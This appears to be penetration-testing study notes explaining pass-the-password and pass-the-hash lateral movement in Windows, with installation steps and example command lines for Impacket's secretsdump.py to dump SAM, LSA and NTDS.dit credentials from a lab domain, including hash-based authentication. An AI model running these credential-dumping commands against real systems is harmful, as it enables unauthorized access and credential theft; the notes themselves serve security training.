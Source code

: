 # Pass Attacks (Pass the Hash / Pass the Password)

## Overview
Pass attacks leverage compromised credentials (passwords or NTLM hashes) for lateral movement in Windows networks. Once you crack a password or dump SAM hashes, you can use these credentials to authenticate to other systems without needing to crack the hash.

## What are Pass Attacks?
- **Pass the Password**: Using cracked plaintext passwords to authenticate to other systems
- **Pass the Hash**: Using NTLM hashes directly for authentication without cracking them
- **Lateral Movement**: Moving from one compromised system to others using valid credentials
- **Credential Reuse**: Exploiting the fact that users often reuse passwords across systems

## secretsdump.py - Credential Extraction Master

### Overview
secretsdump.py is part of the Impacket suite and is used to extract credentials from Windows systems. It can dump SAM, LSA secrets, and NTDS.dit files both locally and remotely.

### Installation
```bash
# Install Impacket
pip3 install impacket

# Or install from source
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .

# Verify installation
secretsdump.py -h
```

### Basic Usage

#### Remote Credential Dumping
```bash
# Basic syntax
secretsdump.py DOMAIN/username:password@target_ip

# Example with domain credentials
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25

# Local authentication (non-domain)
secretsdump.py administrator:password@10.0.0.25

# Using NTLM hash instead of password
secretsdump.py -hashes :ntlm_hash DOMAIN/username@target_ip
secretsdump.py -hashes :5fbc3d5fec8206a30f4b6c473d68ae76 MARVEL.local/administrator@10.0.0.25
```
